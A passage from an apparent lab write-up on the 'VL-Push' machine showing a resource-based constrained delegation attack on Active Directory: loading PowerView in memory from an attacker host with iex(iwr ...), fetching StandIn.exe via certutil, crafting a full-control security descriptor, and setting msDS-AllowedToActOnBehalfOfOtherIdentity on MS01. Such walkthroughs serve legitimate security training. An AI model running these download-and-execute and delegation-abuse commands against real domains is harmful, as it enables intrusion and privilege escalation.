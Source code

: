 Next I loaded PowerView in memory to obtain the Security Identifier (SID) of the newly created computer account:
```powershell
iex(iwr http://10.8.0.49/PowerView.ps1 -usebasicparsing)
Get-DomainComputer
```
![_install](/assets/img/VL-Push/20.png)

Now we need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
However I got some errors while using this command so I instead used the StandIn project from FuzzySecurity. First transfered the binary using certutil:
```powershell
 certutil -urlcache -f http://10.8.0.49/StandIn_v13_Net35.exe StandIn_v13_Net35.exe
```
And succesfully added the msDS-AllowedToActOnBehalfOfOtherIdentity object to the target computer with StandIn:
```powershell
cmd /c C:\temp\StandIn_v13_Net35.exe --computer "MS01" --sid "S-1-5-21-1451457175-172047642-1427519037-3602"
```
![_install](/assets/img/VL-Push/21.png)
